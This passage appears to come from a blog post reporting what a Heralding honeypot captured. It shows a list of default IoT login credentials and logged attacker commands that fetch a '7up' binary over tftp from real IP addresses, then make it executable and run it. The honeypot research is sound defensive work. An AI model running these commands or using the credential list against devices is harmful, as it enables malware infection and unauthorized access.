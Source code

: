 root,realtek
root,root
root,system
root,tl789
root,user
root,vizxv
root,win1dows
root,xc3511
root,xmhdipc
root,zlxx.
root,Zte521
service,service
supervisor,supervisor
support,support
tech,tech
ubnt,ubnt
user,user
{% endhighlight %}

Another IoT related pattern I observed was what appear to be busybox default creds being used to login, download a payload via tftp, and execute it.  Unfortunately, I have not be able to download any of the payload files yet, they all timeout.

### Creds attempted:

{% highlight bash %}
Admin,5up
root,5up
{% endhighlight %}

### Commands tried:

{% highlight bash %}
cd /tmp;rm -f *;tftp -l 7up -r 7up -g 93.190.142.201;chmod a+x 7up;./7up,system
cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 185.35.139.92;chmod a+x 7up;./7up,system
cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 185.35.139.97;chmod a+x 7up;./7up,system
cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 86.105.1.109;chmod a+x 7up;./7up,system
cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 89.33.64.117;chmod a+x 7up;./7up,system
{% endhighlight %}

## Final Thoughts

Malicious login attempts are very common, esp with IoT devices shipping with hardcoded credentials.  Heralding makes collecting these login attempts easy since it is a simple, but effective honeypot for capturing credentials attempted over a variety of different protocols.  

Heralding is implemented in python and because of its [modular logger design](https://github.com/johnnykv/heralding/blob/master/heralding/reporting/base_logger.py), it would be relatively straightforward to add [MHN](https://github.com/threatstream/mhn) support for this honeypot, so if time permits I might do this.

If you wanted to explore the data collected by my instance of heralding, you can download my log file here: [here](/data/heralding_activity.log.gz).
